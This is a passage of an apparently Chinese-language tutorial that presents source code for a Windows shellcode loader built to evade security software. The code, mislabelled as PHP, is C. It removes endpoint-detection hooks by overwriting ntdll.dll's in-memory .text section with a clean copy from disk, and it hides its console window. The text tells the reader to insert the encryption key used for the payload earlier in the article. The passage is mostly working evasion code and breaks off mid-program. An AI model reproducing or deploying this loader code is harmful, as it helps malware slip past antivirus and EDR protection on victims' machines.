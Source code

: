```php
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

### 具体实现

**该将的都讲了，接下来上源码！**

需要注意的是，132 行的 key 设置为文章开头你加密的 key

```php
#include <Windows.h>
#include <wincrypt.h>
#include <string.h>
#include <stdlib.h>
#include <winreg.h>
#include <tlhelp32.h>
#include <time.h>
#include "resource.h"
#include <io.h>
#pragma comment(lib, "Crypt32.lib")
#include <psapi.h>
#include <iostream>
#include <stdio.h>
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

DWORD UNHOOKntdll() {
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(HANDLE(-1), ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", 
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);
    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase +
  hookedDosHeader->e_lfanew);
    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(ntdllFile);
```